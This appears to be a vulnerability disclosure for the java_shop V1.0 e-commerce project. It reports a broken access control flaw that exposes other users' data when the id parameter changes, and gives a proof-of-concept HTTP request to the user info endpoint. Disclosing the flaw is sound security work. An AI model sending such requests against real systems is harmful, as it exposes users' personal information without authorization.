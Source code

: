 target:https://github.com/geeeeeeeek/java_shop version: V1.0

The system has a Broken Access Control vulnerability, which allows attackers to obtain sensitive information of users with different IDs by modifying the ID parameter.

POC:

```
GET /api/myapp/index/user/info?id=91 HTTP/1.1
Host:
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
TOKEN: 
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer:
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```

![image-20241010011620272](image-20241010011620272.png)

![image-20241010011721519](image-20241010011721519.png)